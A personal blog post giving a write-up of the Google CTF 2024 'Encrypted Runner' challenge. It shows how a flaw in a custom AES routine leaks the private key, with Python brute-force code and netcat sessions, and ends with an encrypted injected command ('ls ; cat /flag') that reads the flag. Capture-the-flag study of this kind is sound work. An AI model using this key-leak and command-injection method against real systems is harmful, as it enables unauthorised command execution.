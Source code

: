 ```yaml
---
title: Google CTF 2024 - Pwn Encrypted Runner Writeup
description: Writeup of Pwn Encrypted Runner in Google CTF 2024
date: 2024-06-24 00:00:00 +0800
categories: [Writeup]
---
```


_This writeup is originally posted in [here](https://github.com/ALaggyDev/CTF-Competitions/blob/main/gctf-2024/pwn_encrypted_runner/README.md) in June 2024. This was ported to this blog when the blog was created._

_(11 months later) **Note**: This was my first pwn challenge ever done in an actual CTF competition. Now looking back, my solution was pretty bad. :(_

# Challange

[Challenge in here](https://github.com/google/google-ctf/tree/main/2024/quals/pwn-encrypted-runner)

`You won't be able to run anything but ls, echo or date, hahahaha!`

In the challenge, chal.py will only encrypt safe commands (date, echo, ls).
Our goal is to somehow encrypt arbitary commands (and send it to the remote).

# My solution

## Leaking private aes key

If you try encrypting and decrypting characters above 255, you can see this:
```console
$ python3 chal.py
Welcome to encrypted command runner.
What do you want to do?
- encrypt command (e.g. 'encrypt echo test')
- run command (e.g. 'run fefed6ce5359d0e886090575b2f1e0c7')
- exit
encrypt ls 子AA子AA子AA子AA子
Encrypted command: 4e3b832513a430854cf80c64a087f37b

What do you want to do?
- encrypt command (e.g. 'encrypt echo test')
- run command (e.g. 'run fefed6ce5359d0e886090575b2f1e0c7')
- exit
run 4e3b832513a430854cf80c64a087f37b
Output: ls: cannot access 'aAAdAAkAA'$'\021''AA'$'\024': No such file or directory

...
```

`子AA子AA子AA子AA子` has been replaced to `aAAdAAkAA\021AA\024`!

The reason is the following:
```c++
// aes binary
void Cipher(uint *data_buf,long aes_struct)

{
  byte i;
  
  AddRoundKey(0,data_buf,aes_struct); // This is called
  i = 1;
  while( true ) {
    SubBytes(data_buf); // But the first SubBytes() call resets data to \x00
    ShiftRows(data_buf);
    if (i == 10) break;
    MixColumns(data_buf);
    AddRoundKey(i,data_buf,aes_struct);
    i = i + 1;
  }
  AddRoundKey(10,data_buf,aes_struct);
  return;
}
```
After the call of `AddRoundKey(...)`, the first call of `SubBytes(...)` reset characters above 255 to \x00.
Therefore in decrypting (reverse of encrypting), the extra `AddRoundKey(...)` call can be used to leak the private aes key.


Now, there is some mathematical relationship (xor 0x52) between the decryption output and the aes key. But at the ctf, I don't really want to spend time thinking about, so I simply bruteforce it.
```python
def write_key(key_bit: int):
    key = key_bit.to_bytes(1, "little") + b"\x01" * 15

    with open("key", "bw") as f:
        f.write(key)


# The mappings is the same for each key byte position
mappings = []
for key_bit in range(256):
    write_key(key_bit)

    data = "子" + "A" * 15

    enc_str = helper("encrypt", data)

    out = helper("decrypt", enc_str)

    mappings.append(out[0])

print(mappings)
# [82, 83, 80, 81, 86, 87, 84, 85, 90, 91, 88, 89, 94, 95, 92, 93, 66, 67, 64, 65, 70, 71, 68, 69, 74, 75, 72, 73, 78, 79, 76, 77, 114, 115, 112, 113, 118, 119, 116, 117, 122, 123, 120, 121, 126, 127, 124, 125, 98, 99, 96, 97, 102, 103, 100, 101, 106, 107, 104, 105, 110, 111, 108, 109, 18, 19, 16, 17, 22, 23, 20, 21, 26, 27, 24, 25, 30, 31, 28, 29, 2, 3, 0, 1, 6, 7, 4, 5, 10, 11, 8, 9, 14, 15, 12, 13, 50, 51, 48, 49, 54, 55, 52, 53, 58, 59, 56, 57, 62, 63, 60, 61, 34, 35, 32, 33, 38, 39, 36, 37, 42, 43, 40, 41, 46, 47, 44, 45, 210, 211, 208, 209, 214, 215, 212, 213, 218, 219, 216, 217, 222, 223, 220, 221, 194, 195, 192, 193, 198, 199, 196, 197, 202, 203, 200, 201, 206, 207, 204, 205, 242, 243, 240, 241, 246, 247, 244, 245, 250, 251, 248, 249, 254, 255, 252, 253, 226, 227, 224, 225, 230, 231, 228, 229, 234, 235, 232, 233, 238, 239, 236, 237, 146, 147, 144, 145, 150, 151, 148, 149, 154, 155, 152, 153, 158, 159, 156, 157, 130, 131, 128, 129, 134, 135, 132, 133, 138, 139, 136, 137, 142, 143, 140, 141, 178, 179, 176, 177, 182, 183, 180, 181, 186, 187, 184, 185, 190, 191, 188, 189, 162, 163, 160, 161, 166, 167, 164, 165, 170, 171, 168, 169, 174, 175, 172, 173]
```

We can now leak the remote's private key.
By encrypting `ls 子子子子子子子子子子子子子` on the remote, you get `ls \017[\034\203:Q\031z\a\035\252\370\373`. (you can encrypt `ls 子AAAAAAAAAAAA`, `ls A子AAAAAAAAAAA`, ... sequentially to make it easier to read the output)

```console
$ nc encrypted-runner.2024.ctfcompetition.com 1337
== proof-of-work: disabled ==
Welcome to encrypted command runner.
What do you want to do?
- encrypt command (e.g. 'encrypt echo test')
- run command (e.g. 'run fefed6ce5359d0e886090575b2f1e0c7')
- exit
encrypt ls 子子子子子子子子子子子子子
Encrypted command: a75d08c42ca08d8151c5485855c4ed13
What do you want to do?
- encrypt command (e.g. 'encrypt echo test')
- run command (e.g. 'run fefed6ce5359d0e886090575b2f1e0c7')
- exit
run a75d08c42ca08d8151c5485855c4ed13
Output: ls: cannot access ''$'\017''['$'\034\203'':Q'$'\031''z'$'\a\035\252\370\373': No such file or directory

...
```

We can now recover 13 bytes of the private key:

```python
out = b'ls \017[\034\203:Q\031z\a\035\252\370\373'
key = bytes()
for val in out:
    key += bytes([mappings.index(val)])
```

We still don't know the first 3 bytes of the private key, but we can just bruteforce it.

```python
text = b'ls 0123456789abc'
encrypted = bytes.fromhex("33f7eca2f2d35e7ed18900b952b27bcf")

i = 0
while i < 256 ** 4 - 1:
    new_key = bytes([i % 256, (i // 256) % 256, i // (256 ** 2)]) + key[3:]
    i += 1
    if i % (256 ** 2) == 0:
        print(i // (256 ** 2))

    aes = AES.new(new_key, AES.MODE_ECB)
    enc_text = aes.encrypt(text)

    if enc_text == encrypted:
        print("FOUND IT")
        print(new_key) # new_key = b'N\xa3\x93]\tN\xd1h\x03K(UO\xf8\xaa\xa9'

        exit()
```

## Flags

With that, we leaked the private key! We can now encrypt arbitary commands.

```python
aes = AES.new(new_key, AES.MODE_ECB)
enc_text = aes.encrypt(b"ls ; cat /flag" + b"\x00\x00")
print(enc_text.hex()) # b110678752de46dabf6f9cd87bb4abd3
```

We can send the hash, and get the glorious flag 🚩.

```console
$ nc encrypted-runner.2024.ctfcompetition.com 1337
== proof-of-work: disabled ==
Welcome to encrypted command runner.
What do you want to do?
- encrypt command (e.g. 'encrypt echo test')
- run command (e.g. 'run fefed6ce5359d0e886090575b2f1e0c7')
- exit
run b110678752de46dabf6f9cd87bb4abd3
Output: aes
chal.py
key
CTF{hmac_w0uld_h4ve_b33n_bett3r}

...
```

